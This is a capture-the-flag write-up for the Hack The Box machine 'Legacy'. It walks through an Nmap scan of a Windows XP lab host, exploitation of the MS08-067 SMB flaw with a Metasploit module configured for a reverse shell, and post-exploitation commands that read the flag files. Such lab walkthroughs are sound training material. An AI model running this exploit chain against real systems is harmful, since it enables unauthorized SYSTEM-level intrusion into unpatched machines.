

# [[HackTheBox] Legacy](https://www.hackthebox.eu/home/machines/profile/2)

**Date**: 01/Nov/2019  
**Categories**: [oscp](https://github.com/7h3rAm/writeups/search?q=oscp&unscoped_q=oscp), [htb](https://github.com/7h3rAm/writeups/search?q=htb&unscoped_q=htb), [windows](https://github.com/7h3rAm/writeups/search?q=windows&unscoped_q=windows)  
**Tags**: [`exploit_smb_ms08_067`](https://github.com/7h3rAm/writeups#exploit_smb_ms08_067)  
**InfoCard**:  


## Overview
This is a writeup for HTB VM [`Legacy`](https://www.hackthebox.eu/home/machines/profile/2). Here's an overview of the `enumeration` → `exploitation` → `privilege escalation` process:





\newpage
## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
``` {.python .numberLines}
# Nmap 7.70 scan initiated Fri Nov  1 14:44:27 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/writeups/htb.legacy/results/10.10.10.4/scans/_quick_tcp_nmap.txt -oX /root/toolbox/writeups/htb.legacy/results/10.10.10.4/scans/xml/_quick_tcp_nmap.xml 10.10.10.4
Nmap scan report for 10.10.10.4
Host is up, received user-set (0.057s latency).
Scanned at 2019-11-01 14:44:28 PDT for 276s
Not shown: 997 filtered ports
Reason: 997 no-responses
PORT     STATE  SERVICE       REASON          VERSION
139/tcp  open   netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  syn-ack ttl 127 Windows XP microsoft-ds
3389/tcp closed ms-wbt-server reset ttl 127
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: -3h59m53s, deviation: 1h24m50s, median: -4h59m53s
| nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:0c:03 (VMware)
| Names:
|   LEGACY<00>           Flags: <unique><active>
|   HTB<00>              Flags: <group><active>
|   LEGACY<20>           Flags: <unique><active>
|   HTB<1e>              Flags: <group><active>
|   HTB<1d>              Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
| Statistics:
|   00 50 56 b9 0c 03 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 40600/tcp): CLEAN (Timeout)
|   Check 2 (port 13850/tcp): CLEAN (Timeout)
|   Check 3 (port 50902/udp): CLEAN (Timeout)
|   Check 4 (port 54226/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery:
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2019-11-01T20:44:53+02:00
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-security-mode: Couldn't establish a SMBv2 connection.
|_smb2-time: Protocol negotiation failed (SMB2)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Nov  1 14:49:04 2019 -- 1 IP address (1 host up) scanned in 276.38 seconds

```

2\. From the Nmap scan results, we find that the target system has SMB service running and is a Windows XP system:  
``` {.python .numberLines}
| smb-os-discovery:
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2019-11-01T20:44:53+02:00

```


### Findings
#### Open Ports:
``` {.python .numberLines}
137/udp  |  netbios-ns    |  Microsoft Windows netbios-ns (workgroup: HTB)
139/tcp  |  netbios-ssn   |  Microsoft Windows netbios-ssn
445/tcp  |  microsoft-ds  |  Windows XP microsoft-ds
```

\newpage
## Phase #2: Exploitation
1\. For a Microsoft Windows XP system with open SMB, we use the MSF [MS08-067](https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2008/ms08-067) exploit `windows/smb/ms08_067_netapi` and gain a shell with elevated privileges on the target system:  
``` {.python .numberLines}
msfconsole
  use exploit/windows/smb/ms08_067_netapi
  set RHOST 10.10.10.4
  set LHOST 10.10.14.18
  show options
  exploit

```

  

2\. We then obtain further information about the system and read the contents of both `user.txt` and `root.txt` files to comeplete the challenge:  
``` {.python .numberLines}
ipconfig
systeminfo
dir user.txt /s /p
type "C:\Documents and Settings\john\Desktop\user.txt"
type "C:\Documents and Settings\Administrator\Desktop\root.txt"

```

  

  

  


## Phase #2.5: Post Exploitation
``` {.python .numberLines}
ntauth/system@LEGACY> id
NT AUTHORITY\SYSTEM
ntauth/system@LEGACY>  
ntauth/system@LEGACY> uname
Host Name:                 LEGACY
OS Name:                   Microsoft Windows XP Professional
OS Version:                5.1.2600 Service Pack 3 Build 2600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Uniprocessor Free
ntauth/system@LEGACY>  
ntauth/system@LEGACY> ifconfig
Ethernet adapter Local Area Connection:
  Connection-specific DNS Suffix  . :
  IP Address. . . . . . . . . . . . : 10.10.10.4
  Subnet Mask . . . . . . . . . . . : 255.255.255.0
  Default Gateway . . . . . . . . . : 10.10.10.2
ntauth/system@LEGACY>  
ntauth/system@LEGACY> users
Administrator
john
```

\newpage

\newpage

## Loot
### Flags
``` {.python .numberLines}
C:\Documents and Settings\john\Desktop\user.txt: e69af0e4f443de7e................
C:\Documents and Settings\Administrator\Desktop\root.txt: 993442d258b0e0..................
```

## References
[+] <https://www.hackthebox.eu/home/machines/profile/2>  
[+] <https://medium.com/@_C_3PJoe/htb-retired-box-walkthrough-legacy-147bbcc9ff02>  
